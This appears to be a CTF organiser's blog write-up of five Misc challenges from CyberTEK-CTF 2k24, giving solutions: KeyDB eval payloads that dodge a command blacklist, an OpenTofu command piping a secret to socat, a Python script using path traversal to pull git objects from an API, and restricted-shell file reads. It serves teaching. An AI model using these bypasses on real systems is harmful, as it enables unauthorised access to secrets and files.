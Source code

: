 ```yaml
---
title: "CyberTEK-CTF 2k24"
date: 2024-05-05
draft: false
description: "a description"
tags: ["ctf", "misc"]
---
```


### Intro;
Last weekend, we had the privilege of organizing a local CTF competition at TEKUP University. The competition featured +30 custom-authored challenges spanning diverse categories. 
The event saw an amazing turnout with 50+ teams and 140+ players joining in. The feedback was incredibly positive, with many participants enjoying the challenges and the overall experience.


### About;
  - Event place: TEKUP University. 
  - Event duration: `14hrs`.
  - Flag format: Securinets{.*}.

### Challenges;
The CTF showcased a wide variety of challenges across multiple categories, and I had the privilege to author 6 challenges for the Misc category although most of them are jail-oriented tasks. Below is a detailed breakdown of the challenges and their difficulty levels:

|   Challenge     | Points | Solves |  Author |
|-----------------|--------|--------|---------|
|   [Siclodb]()       |  500   |   1    | chxmxii |
|   [Openheimer]()    |  440   |   6    | chxmxii |
|   [bolbok]()        |  470   |   4    | chxmxii |
|   [ekko]()          |  494   |   7    | chxmxii |
|   [heimerdigger]()  |  146   |   18   | xhlayel, chxmxii |

#### Siclodb;
This challenge was a bit tricky. I blacklisted several KeyDB functions to prevent players from directly retrieving the value of the flag key. The twist was that many participants were unaware they could use eval() in the KeyDB console or leverage redis.call() as an alternative to KeyDB.call() (since keydb is a fork of redis) to bypass the restrictions. However the final payload should look like that;
```shell
$ eval "local a='du'; a=a..'mp';local b='fl';b=b..'ag'; local k=redis.call(a, b); return k;" 0
$ eval "local a='ge'; a=a..'t';local b='fl';b=b..'ag'; return cjson.encode(redis.call(a, b))" 0
```
---
#### Openheimer;
In case you're unfamiliar, OpenTofu is a community-driven fork of the popular Infrastructure-as-Code tool Terraform, created after some licensing changes caused controversy. To introduce OpenTofu to the community, I designed this challenge, which allows players to connect to an OpenTofu console.

The objective is for players to figure out how to list the OpenTofu secrets. There are several ways to solve this, and one possible solution is shown below:

```shell
nonsensitive(urlencode(var.SECRET)) | socat - TCP:localhost:13337
```
For more; 
{{< alert "link" >}}
https://opentofu.org/docs/language/functions/nonsensitive/
{{< /alert >}}

---
#### Ekko;
The challenge present two API endpoints, one for listing directories and another for reading file contents. This inspired the challenge's description, ls && cat made easy. Without diving too deep into the specifics, you can find the solution for this challenge below:
```python
from os import listdir, path
import requests, re, zlib\

url = "https://ekko.securinets-tekup.tech/"
commit_list = []
request = requests.get(url + "ls?q=...git/objects")
objects = re.findall("\w+", request.text)

if request.status_code == 200:
    for obj in objects:
        get_commit = requests.get(url + "ls?q=...git/objects/" + obj + "/")
        commits = re.findall("\w+", get_commit.text)
        for commit in commits:
            get_blob = requests.get(url + "cat?q=...git/objects/" + obj + "/" + commit)
            with open(commit + ".zlib", "wb") as f:
                f.write(get_blob.content)

for blob in listdir("."):
    with open(blob, "rb") as f:
        blob_content = f.read()
    f.close()
    try:
        decompressed_blob = zlib.decompress(blob_content)
    except zlib.error as e:
        print(f"Zlib error: {e}")
    flag = re.search("Securinets.*", str(decompressed_blob))
    if flag:
        print(flag.group())
```

---
#### Bolbok
In this challenge, players were placed in a restricted shell environment, `rbash`, with limited command options. The flag was hidden in a directory with an ambiguous name, making it tricky to locate. However, for those familiar with `ls` and `grep`, the solution was straightforward:

```shell
ls -Ra / | grep flag -B3
<path>:
.
..
.flag
```
Players had to figure out how to read its contents within the restricted shell.
```shell
echo $(< <path>/.flag)
Securinets{FLAG}
OR
while read line; do echo $line; done < <path>/.flag
Securinets{FLAG}
``` 

---
#### Heimerdigger;
dive into the docker layers and collect the deleted files.
one of the files gave us a hint about fixing the corrupted jpg file `f(byte) = (15 - byte) modulos 256`

```python
def transform_file(input_image_path, output_image_path):
    with open(input_image_path, 'rb') as input_file:
        data = input_file.read()
    modified_data = bytearray((15 - byte) % 256 for byte in data)
    with open(output_image_path, 'wb') as output_file:
        output_file.write(modified_data)
        print("Modified image saved to:", output_image_path)

# Usage
input_image_path = "./01946.jpg"
output_image_path = "./heimer.jpg"
transform_file(input_image_path, output_image_path)
``` 
---
### Das Ende;

A huge shoutout to everyone who helped make this event a success-Securitnets TEKUP, the participants, and the support from TEKUP University.
For more insights, detailed write-ups, or to access the challenge files, check out my GitHub repository: 

{{< github repo="chxmxii/CTF" >}}
